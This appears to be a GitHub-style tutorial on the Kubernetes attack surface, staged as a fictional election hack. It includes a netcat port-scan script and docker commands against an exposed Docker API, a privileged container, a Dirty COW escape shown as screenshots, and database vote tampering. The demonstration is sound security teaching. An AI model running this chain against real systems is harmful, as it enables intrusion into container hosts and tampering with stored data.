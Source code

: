 # Understand Kubernetes Attack Surface Through a Demo Attack

## History
- In the elections between CATS and DOGS, Dogs have been winning elections for quite some time.
- The cats team decides to hack the systems and announce Cats have won the election by a massive majority.

![Uploading image.png…]()


Data that is available publicly are:
- Domains:
  - www.vote.com
  - www.result.com
- Both the domains respond to ping
  - This indicates the domains are hosted in the same server/infrastructure:
```
ping votes.com
pint results.com
```
    
![image](https://github.com/user-attachments/assets/68fd033e-03b2-4ba7-804b-136cce98081e)

### When performing the port-scan it reveals the ports which are exposed/vulnerable
```
cat port-scan.sh

#!/bin/bash

# Check if an IP address is provided
if [ -z "$1" ]; then
    echo "Usage: $0 <host>"
    exit 1
fi

HOST=$1

# List of common ports to scan
declare -A PORTS
PORTS=(
    [21]="ftp"
    [22]="ssh"
    [23]="telnet"
    [25]="smtp"
    [53]="dns"
    [80]="http"
    [110]="pop3"
    [111]="rpcbind"
    [135]="msrpc"
    [139]="netbios-ssn"
    [143]="imap"
    [443]="https"
    [445]="ms-ds"
    [993]="imaps"
    [995]="pop3s"
    [1723]="pptp"
    [2375]="docker"
    [3306]="mysql"
    [3389]="ms-wbt"
    [5900]="vnc"
)

echo "Scanning host $HOST..."

# Loop through the ports and check their status
for PORT in "${!PORTS[@]}"; do
    SERVICE=${PORTS[$PORT]}
    echo -n "Scanning port $PORT for $SERVICE ... "

    # Use nc (netcat) to check if the port is open
    nc -z -w 1 $HOST $PORT &> /dev/null
    if [ $? -eq 0 ]; then
        echo "Success"
    else
        echo "Fail"
    fi
done

# sh port-scan.sh  104.21.63.124
```

The scan results shows the docker port is exposed.
- This points to the fact that the security is disabled for docker service running in the infra.
![image](https://github.com/user-attachments/assets/b92314d6-ceea-476f-88bc-e42112319bcc)

### To verify the access ran the docker ps command:

```
# docker -H www.vote.com ps -a
```
- This lists the containers running within the host.
![image](https://github.com/user-attachments/assets/fd766a0b-5509-4a4c-8a2b-3ac3f130ce23)

- The docker version is also available:
```
# docker -H www.vote.com version
```
![image](https://github.com/user-attachments/assets/8fac0187-67cf-4e2b-8447-afdb43d64a96)


### Now the hacker creates a privileged container to act as a Jump-server
```
# docker -H  www.vote.com  run  --privileged  -it  ubuntu bash
root@new-container:/# 
```
- Then installs the curl/wget packages to run the custom scripts to attack the env

![image](https://github.com/user-attachments/assets/716028be-caa8-4a65-8a88-f5cff43131af)

- Now the attacker downloads the Dirty-Cow exploit script:
- And runs it to escape out of the container onto the underlying Host:

![image](https://github.com/user-attachments/assets/7fda2ccc-f622-4d5b-b101-6e1a4224bd9d)

### Runs the script to access the underlying Host terminal

![image](https://github.com/user-attachments/assets/76a1c2f9-ee72-4d7a-9c70-05748c3ec9d4)

![image](https://github.com/user-attachments/assets/da9e7fa5-6d67-4e59-880a-d4f5448bebe2)

- At this point, the attacker can infiltrate into the rest of the network 

![image](https://github.com/user-attachments/assets/69f2753c-9d5f-45ae-a403-84aec33dc382)

- In the docker ps output shows that the containers include K8s - Kubernetes dashboard containers:

![image](https://github.com/user-attachments/assets/39fcd5f5-dcff-4565-bf79-9d0043e6f785)

- To identify the port associated with the K8s dashboard - the attacker can check the IPTables Nat chain
- The port exposed is 30080.

![image](https://github.com/user-attachments/assets/1f9084d7-817a-423a-9076-0f24f5703e8b)

- The K8s dashboard is available in the URL 104.21.63.124:30080
- The dashboard gives information about the entire cluster.

![image](https://github.com/user-attachments/assets/976871b8-c1d9-4483-9420-bd154a8f5b84)

- The results are saved in the db database, which contains the password details as environment variables:

![image](https://github.com/user-attachments/assets/d5e81651-b823-4af7-8cf5-644227fae712)

- Now the attacker identifies the database container and execs into it:

![image](https://github.com/user-attachments/assets/05f63812-7559-42ad-9dd5-2dd0c52a0694)

- Once in, the attacker uses the Username and password to connect to the DB
![image](https://github.com/user-attachments/assets/e73a972a-00c1-4cfa-bbee-303e12f46a02)

- Now she updates the votes of Doga and cats using the script

![image](https://github.com/user-attachments/assets/0eeb8517-fb75-407c-8d54-c341b589fb01)

- Now the results are successfully manipulated:

![image](https://github.com/user-attachments/assets/68f2c1db-b2ed-4898-a41d-46b66965e5ad)
